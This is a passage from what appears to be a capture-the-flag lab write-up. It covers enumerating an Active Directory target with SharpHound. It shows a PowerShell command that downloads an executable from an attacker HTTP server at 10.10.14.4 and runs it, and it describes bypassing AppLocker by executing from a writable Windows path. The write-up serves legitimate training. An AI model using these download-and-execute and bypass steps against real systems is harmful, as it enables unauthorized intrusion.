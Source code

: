 ## Path to Victory

Now that we got our foot on the door🚪, we can try to collect and analyze all the available domain information. The `upload` function of `evil-winrm` does not work for some reason, so we can transfer `SharpHound.exe` via an HTTP server and run it...or not (Figure 22) ?

{% hint style="danger" %}
For BloodHound Community Edition **download the latest compatible SharpHound ingestor**!
{% endhint %}

{% tabs %}
{% tab title="1. HTTP Server" %}
```bash
# starting an HTTP server from the directory that SharpHound.exe resides
python3 -m http.server 80
```
{% endtab %}

{% tab title="2. Download" %}
```powershell
# downloading the executable from the target host
IWR -Uri http://10.10.14.4/SharpHound.exe -OutFile sh.exe
# running the executable
.\sh.exe -c all
```
{% endtab %}
{% endtabs %}

<figure><img src="../../../.gitbook/assets/sizzle_blocked_gp.png" alt=""><figcaption><p>Figure 22: SharpHound is blocked by the host's group policy.</p></figcaption></figure>

It seems that we can't execute files due to AppLocker's group policies. Luckily, there are many default writable paths, such as `C:\Windows\Registration\CRMLog`, that we can write to and execute a file from (paths listed [here](https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md#placing-files-in-writeable-paths)) (Figure 23).
